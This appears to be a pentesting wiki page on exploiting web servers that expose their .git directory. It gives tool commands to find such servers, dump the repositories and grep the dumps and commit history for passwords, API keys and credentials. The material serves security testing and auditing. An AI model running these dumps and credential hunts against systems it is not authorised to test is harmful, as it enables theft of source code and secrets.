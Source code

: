 ```yaml
---
description: OWASP A3:2017-Sensitive Data Exposure
---
```


# Exposed Git Repositories

## Theory

The exposure of Git repositories on a webserver often occurs due to misconfigurations, where the `.git` directory is left accessible without proper access controls.&#x20;

If we encounter an application with an exposed .`git` directory, we can retrieve the entire repository. This enables us to extract valuable information, such as the remote repository address, commit history, logs, and various metadata. Accessing these details may reveal sensitive data, including proprietary code, hard-coded API keys, and credentials, which can then be leveraged to escalate our attack and further compromise the application's security.

## Practice

### Enumeration

To detect exposed Git repositories, we can utilize tools and commands below.

{% tabs %}
{% tab title="httpx" %}
We may use [httpx](https://github.com/projectdiscovery/httpx) to identify exposed repositories across a list of domains using the command below. It checks if the `.git/HEAD` file contains `refs/heads` .

Note that this one-liner will only identify repositories if directory listing is enabled.

```bash
cat domains.txt | httpx -path /.git/HEAD -silent -mr "refs/heads"
```
{% endtab %}

{% tab title="Feroxbuster" %}
When performing web directory fuzzing on a target with [Feroxbuster](https://github.com/epi052/feroxbuster) or any other tool, using the [common.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt) wordlist from [SecLists](https://github.com/danielmiessler/SecLists) can help uncover any exposed `.git` directories.

```bash
feroxbuster -u http://target.com -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```
{% endtab %}

{% tab title="Google Dorks" %}
We can use the Google search engine to search for exposed `.git` repository with the following [Google Dorks](exposed-git-repositories.md#google-dorks)

```bash
intext:"index of" ".git"
{intitle: indexof/.git }
intitle:"index of" "/.git/config"
filetype:git -github.com inurl:"/.git"
```
{% endtab %}

{% tab title="Gitfinder" %}
This python script from [GitTools](https://github.com/internetwache/GitTools) identifies websites with publicly accessible `.git` repositories from a list of domains. It checks if the `.git/HEAD` file contains `refs/heads`.

```
./gitfinder.py -i domains.txt
```
{% endtab %}
{% endtabs %}

### Dump&#x20;

Once an exposed Git repository is identified, the next step is to perform a repository dump to extract its contents.

{% tabs %}
{% tab title="GitTools" %}
**gitdumper** from [GitTools](https://github.com/internetwache/GitTools) can be used to download as much as possible from the found .git repository from webservers which do not have directory listing enabled.

```
./gitdumper.sh http://target.com/.git/ dest-dir
```

**extractor.sh** from [GitTools](https://github.com/internetwache/GitTools) can then be used in combination with **gitdumper** in case the downloaded repository is incomplete. This tool extract commits and their content from a broken repository.

```
./extractor.sh /tmp/mygitrepo /tmp/mygitrepodump
```
{% endtab %}

{% tab title="GitHacker" %}
[GitHacker](https://github.com/WangYihang/GitHacker) (Python) is a multiple threads tool to exploit the `.git` folder leakage vulnerability.

```bash
# quick start
githacker --url http://127.0.0.1/.git/ --output-folder result
# brute for the name of branchs / tags
githacker --brute --url http://127.0.0.1/.git/ --output-folder result
# exploit multiple websites, one site per line
githacker --brute --url-file websites.txt --output-folder result
```
{% endtab %}

{% tab title="goop" %}
[goop](https://github.com/nyancrimew/goop) (Golang) is tool to dump a git repository from a website.

```bash
goop target.com
```
{% endtab %}

{% tab title="git-dumper" %}
[git-dumper](https://github.com/arthaud/git-dumper) (python) is a tool to dump a git repository from a website.

```bash
git-dumper http://target.com/.git ~/TargetOutputFolder
```
{% endtab %}
{% endtabs %}

### Hunting

After successfully dumping an exposed Git repository, the next step is to hunt for valuable secrets within the retrieved data.

{% tabs %}
{% tab title="Hard-coded Secrets" %}
#### Noseyparker

[Noseyparker](https://github.com/praetorian-inc/noseyparker) is a command-line program that finds secrets and sensitive information in textual data and Git history. We can use this tool to recursively search sensitive information in a repository.

```bash
# Scan filesystem / folder
noseyparker scan --datastore np.myDataStore /path/to/gitRepo

# Get results
noseyparker report -d np.myDataStore
```

{% hint style="info" %}
You may use this tools to search sensitives files in a [mounted NFS share](../../../network/protocols/nfs.md#mount-nfs-shares), a [mounted SMB share](../../../network/protocols/smb.md#acls-of-shares-file-folder), or even [exiltrated data](../../../redteam/exfiltration/).
{% endhint %}

#### Bash

Alternatively, `find` command can be use to find configuration files by recursively searching files with a specific extension or name and the grep command can be use to find passwords in files by recursively searching text patterns.

```bash
# Search for patterns in file
grep -ari 'password'
grep -ari 'api_key'
grep -ari 'api_key'

# Search for configuration/sensitive files
find / -type f -name *.conf 2>/dev/null
find / -type f -name *pass* 2>/dev/null
```
{% endtab %}

{% tab title="Origin" %}
Sometimes, we can find HTTP credential in the remote repository URL&#x20;

```bash
git config --get remote.origin.url
```
{% endtab %}

{% tab title="Commit History" %}
Even if  [Noseyparker](https://github.com/praetorian-inc/noseyparker) can do it for us, we may manually search for sensitive informations in previous commits.

```bash
# Get list of commits
git log

# Get list of commits as a graph
git reflog

# Get list of commit filtred by authors
git log --author="John Doe"

# Check code change over two commits
git diff <FISRT_COMMIT_ID> <SECOND_COMMIT_ID>

# Checkout on a specific commit
git checkout <COMMIT_ID>

# Finally hunt for secrets on this new commit
cat secrets.txt
grep -ari 'password'
....
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://owasp.org/www-project-top-ten/2017/A3_2017-Sensitive_Data_Exposure" %}

{% embed url="https://medium.com/stolabs/git-exposed-how-to-identify-and-exploit-62df3c165c37" %}

{% embed url="https://infosecwriteups.com/exposed-git-directory-exploitation-3e30481e8d75" %}
